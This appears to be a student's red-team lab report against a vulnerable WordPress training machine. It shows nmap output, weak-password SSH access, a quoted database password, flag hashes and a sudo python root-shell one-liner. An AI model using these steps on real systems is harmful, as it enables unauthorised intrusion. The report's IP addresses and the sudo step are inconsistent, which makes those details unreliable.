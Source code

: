 # Cyber-Security-Final-Project

Red Team: Summary of Operations
Table of Contents
Exposed Services
Critical Vulnerabilities
Exploitation
Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV -O 192.168.1.110
#  Nmap scan report for 192.168.1.110
#  Host is up (0.00072s latency).
#  Not shown: 995 closed ports
#  PORT    STATE SERVICE     VERSION
#  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
#  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
#  111/tcp open  rpcbind     2-4 (RPC #100000)
#  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  MAC Address: 00:15:5D:00:04:10 (Microsoft)
#  Device type: general purpose
#  Running: Linux 3.X|4.X
#  OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
#  OS details: Linux 3.2 - 4.9
#  Network Distance: 1 hop
#  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#
#  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#  # Nmap done at Wed Mar 24 17:59:39 2021 -- 1 IP address (1 host up) scanned in 13.33 seconds
This scan identifies the services below as potential points of entry:

Target 1
Port 22 (SSH)
Port 80 (HTTP)
Port 111 (rpcbind)
Port 139 (netbios / smb)
Port 445 (netbios / smb)
Critical Vulnerabilities
The following vulnerabilities were identified on each target:

Target 1
wpscan user enumeration
wpscan was able to enumerate users and find valid usernames for the target system.
wp-scan-output
SSH with Password
Users are able to ssh into the machine with simply a password, rather than requiring an SSH key.
User michael had an incredibly weak password (same as his username).
python can run with sudo
User steven has the ability to run python with sudo
Python can execute arbitrary code on the system, so it is trivial to get a shell with root access using this loophole
Database credentials in plain text
Database credentials for the wordpress site were found written in plain text, and stored in the /var/www/html/wp_config.php.
This allowed us to access the mysql database used for the site, and extract password hashes and other confidential information.
CVE-2017-3167
Authentication bypass is possible on the version of Apache running on the server
CVE-2017-7494
Version of samba running on the server is insecure and allows for remote code execution.
Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

Target 1
flag1.txt: b9bbcb33e11b80be759c4e844862482d
Exploit Used
Weak Password / SSH with password
After SSHing into the host with michael's credentials, we were able to search the /var/www/html directory for flag1.
Commands run:
ssh michael@192.168.1.100
cd /var/www/html
grep -ER flag1
flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
Exploit Used
Weak Password / SSH with password
After SSHing into the host with michael's credentials, flag2 was found right in /var/www
Commands run:
ssh michael@192.168.1.100
cd /var/www
cat flag2.txt
flag3.txt: afc01ab56b50591e7dccf93122770cd2
Exploit Used
Database credentials in plain text
After getting the database credentials from /var/www/html/wp_config.php, we connected to the mysql database and searched for the flag.
Commands run:
ssh michael@192.168.1.100
less /var/www/html/wp_config.php
mysql --user root --password # Password is R@v3nSecurity
mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";
This returned the value for flag 3
flag4.txt: 715dea6c055b9fe3337544932f2941ce
Exploit Used
python can run with sudo
After cracking steven's password using john and the hash found in the database, we determined that user steven could run python with sudo permissions.
This allows us to use python as sudo to execute a shell program, thereby granting us access to the root account.
flag4.txt was found in the /root directory, the root account's home directory.
Commands run:
python -c 'import os; os.system("/bin/sh")'
cat flag4.txt
